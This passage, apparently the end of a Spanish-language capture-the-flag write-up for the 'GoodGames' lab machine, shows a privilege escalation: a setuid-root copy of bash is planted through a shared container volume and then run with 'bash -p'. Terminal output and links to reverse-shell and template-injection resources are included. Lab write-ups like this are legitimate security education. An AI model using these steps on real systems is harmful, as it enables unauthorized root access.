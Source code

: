 ## Privilege Scalation

Una vez que hemos conseguido acceso, tenemos que recordar que el volumen montado es /home, y que por defecto el usuario del contenedor es root. Esto nos permite ganar acceso como root de forma simple:

Lo primero es copiar la shell `/bin/bash` en el propio directorio de augustus, y luego salir para volver al contenedor y así cambiarle los permisos para que root sea el propietario y pueda ser ejecutado por cualquier usuario. Cuando tratemos de volver a conectarnos con el usuario augustus, si ejecutamos elc omando `bash -p`, nos dará root automáticamente.

```
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# ls
RunC-CVE-2019-5736  RunC-CVE-2019-5736.zip  bash  linpeas.sh  user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jan 31 18:39:47 2025 from 172.19.0.2
augustus@GoodGames:~$ ls
bash user.txt
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1#
```

## Resources

Links:
1. https://www.geeksforgeeks.org/types-of-sql-injection-sqli/
2. https://pythonbasics.org/what-is-flask-python/
3. https://juncotic.com/jinja2-en-flask-introduccion/
4. https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/
5. https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/
6. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md?ref=sec.stealthcopter.com
7. https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
8. https://www.revshells.com/
9. https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/
10. https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
11. https://invertebr4do.github.io/tratamiento-de-tty/#